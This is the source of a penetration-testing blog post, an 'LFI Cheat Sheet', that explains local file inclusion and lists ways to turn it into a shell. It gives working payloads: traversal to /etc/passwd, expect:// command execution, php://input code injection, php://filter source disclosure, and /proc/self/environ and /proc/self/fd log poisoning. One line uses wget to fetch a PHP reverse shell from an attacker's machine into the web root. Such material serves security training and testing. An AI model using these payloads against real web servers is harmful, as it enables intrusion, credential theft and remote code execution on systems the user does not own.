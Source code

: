 ```yaml
---
layout: blog_item
title: "LFI Cheat Sheet"
date:   2016-04-24 11:29:10
author: Arr0way
description: 'LFI Explained and the techniques to leverage a shell from a local file inclusion vulnerability. How to get a shell from LFI'
categories: [web app penetration testing]
tags:
- LFI
- 'Web Application Penetration Testing'
---
```


* list element with functor item
{:toc}

## What is an LFI Vulnerability?

LFI stands for **Local File Includes** - it's a file local inclusion vulnerability that allows an attacker to include files that exist on the target web server. Typically this is exploited by abusing dynamic file inclusion mechanisms that don't sanitize user input.

Scripts that take filenames as parameters without sanitizing the user input are good candidates for LFI vulnerabilities, a good example would be the following PHP script <code>foo.php?file=image.jpg</code> which takes <code>image.jpg</code> as a parameter.  An attacker would simply replace <code>image.jpg</code> and insert a payload. Normally a directory traversal payload is used that escapes the script directory and traverses the filesystem directory structure, exposing sensitive files such as <code>foo.php?file=../../../../../../../etc/passwd</code> or sensitive files within the web application itself. Exposing sensitive information or configuration files containing SQL usernames and passwords.

Note: In some cases, depending on the nature of the LFI vulnerability it's possible to run system executables.

## How to get a Shell from LFI

Below are some techniques I've used in the past to gain a shell on systems with vulnerable LFI scripts exposed.

<hr>

### Path Traversal aka Directory Traversal

As mentioned above Traverse the filesystem directory structure to disclose sensitive information about the system that can help you gain a shell, usernames / passwords etc.

<hr>

### PHP Wrapper expect:// LFI

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

{% highlight bash%}
http://127.0.0.1/fileincl/example1.php?page=expect://ls
{% endhighlight %}


Below is the error received if the PHP expect wrapper is disabled:  

{% highlight php %}
Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7
{% endhighlight %}

<hr>

### PHP Wrapper php://file

Another PHP wrapper, <code>php://input</code> your payload is sent in a POST request using curl, burp or hackbar to provide the post data is probably the easiest option.  

![LFI php://file hackbar](/img/blog/web-for-penetration-testers/lfi-php-file-hackbar-pentesters-labs.png)

Example:
{% highlight bash %}
http://192.168.183.128/fileincl/example1.php?page=php://input
{% endhighlight %}

Post Data payload, try something simple to start with like: <code><? system('uname -a');?></code>

Then try and download a [reverse shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) from your attacking machine using:

{% highlight bash %}
<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>
{% endhighlight %}


After uploading execute the reverse shell at <code>http://192.168.183.129/shell.php</code>

<hr>

### PHP Wrapper php://filter

Another PHP wrapper, <code>php://filter</code> in this example the output is encoded using base64, so you'll need to decode the output.

{% highlight bash %}
http://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
{% endhighlight %}

<hr>

### /proc/self/environ LFI Method

If it's possible to include <code>/proc/self/environ</code> from your vulnerable LFI script, then code execution can be leveraged by manipulating the <code>User Agent</code> parameter with Burp. After the PHP code has been introduced <code>/proc/self/environ</code> can be executed via your vulnerable LFI script.

<hr>

### /proc/self/fd/ LFI Method

Similar to the previous <code>/proc/self/environ</code> method, it's possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the <code>referer</code>.

This method is a little tricky as the proc file that contains the Apache error log information changes under <code>/proc/self/fd/</code> e.g. <code>/proc/self/fd/2</code>, <code>/proc/self/fd/10</code> etc. I'd recommend brute forcing the directory structure of the /proc/self/fd/ directory with Burp Intruder + FuzzDB's [LFI-FD-Check.txt](https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/LFI-FD-check.txt) list of likely proc files, you can then monitor the returned page sizes and investigate.

<hr>

## fimap LFI Tool

fimap automates the above processes of discovering and exploiting LFI scripts. Upon discovering a vulnerable LFI script fimap will enumerate the local filesystem and search for writable log files or locations such as <code>/proc/self/environ</code>.  

<hr>

### fimap + phpinfo() Exploit

Fimap exploits PHP's temporary file creation via Local File Inclusion by abusing PHPinfo() information disclosure glitch to reveal the location of the created temporary file.

If a phpinfo() file is present, it's usually possible to get a shell, if you don't know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.


Enjoy + Share.
